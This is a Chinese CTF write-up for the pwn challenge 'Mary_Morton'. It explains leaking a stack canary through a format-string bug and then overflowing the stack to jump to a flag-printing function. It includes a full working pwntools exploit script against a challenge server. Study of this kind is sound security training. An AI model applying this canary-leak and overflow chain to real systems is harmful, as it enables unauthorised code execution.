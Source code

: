 # Mary_Mortion

Canary开启，是一个随机数，x86-64架构下通过fs:0x28来获取这个数据存放在栈中。在退出栈之前，会对栈中的canary值进行检测。

![nC9EbD](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/nC9EbD.png)

栈其实玩儿的挺少的，简单看了一下发现，canary是在一个fork进程中应该是不会变的。

![0SqIOT](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/0SqIOT.png)

这样就简单了，根据下面操作

- 通过FMT漏洞获取Canray的值
- 在栈溢出时，将Canray填写到正确位置。



## FMT

通过构造`"8%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p"`这样的输入，获取canray的地址。

发现canray在第二十三个，于是构造`"4%23$p`

```python
#leak canary
fun2("4%23$p")
p.recvline()
p.recv(1)
can=p.recv(18)[2:18]
#print "[*]canary => "+can
can_int=int(can,16)
print "[*]canary => "+hex(can_int)
```

## BufferOverFlow

只需要将canary填写到rbp-8点位置，然后让程序跳转到cat flag的函数即可。

```python
#Overflow
flag=0x4008da
#fun1("A"*0x88+p64(can_int)+p64(0)+p64(0x000000000040065d)+p64(0)+p64(flag))
fun1("A"*0x88+p64(can_int)+p64(0)+p64(flag))
```

我本地居然没有跑出来。。。原因未知，调试了好久都读取不了文件。一开始一直以为是栈对齐问题。。。浪费时间。远程一跑就出来了。。。还是system的问题，所以利用还是多用execve，这种题目真的够了，可玩性太低。

![jAEec3](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/jAEec3.png)



## EXP

```python
#!/usr/bin/python
from pwn import *
import binascii

p=remote("111.198.29.45","47959")
#p=process("./pwn")
#context.log_level='Debug'
#gdb.attach(p,"b *0x4009D9")


def fun1(input):
	#p.recvuntil("3. Exit the battle")
	p.sendline(str(1))
	p.sendline(input)

def fun2(input):
	p.recvuntil("3. Exit the battle")
	p.sendline(str(2))
	p.sendline(input)

#fun1("A"*0x100)
raw_input("enter after click c in the gdb") #Debug
#fun2("8%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")

#leak canary
fun2("4%23$p")
p.recvline()
p.recv(1)
can=p.recv(18)[2:18]
#print "[*]canary => "+can
can_int=int(can,16)
print "[*]canary => "+hex(can_int)

#Overflow
flag=0x4008da
#fun1("A"*0x88+p64(can_int)+p64(0)+p64(0x000000000040065d)+p64(0)+p64(flag))
fun1("A"*0x88+p64(can_int)+p64(0)+p64(flag))
p.interactive()
```





# 参考

[system执行段错误]([https://www.xmcve.com/2019/05/%E5%9C%A8%E4%B8%80%E4%BA%9B64%E4%BD%8D%E7%9A%84glibc%E7%9A%84payload%E8%B0%83%E7%94%A8system%E5%87%BD%E6%95%B0%E5%A4%B1%E8%B4%A5%E9%97%AE%E9%A2%98/](https://www.xmcve.com/2019/05/在一些64位的glibc的payload调用system函数失败问题/))

![QJCSUT](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/QJCSUT.png)

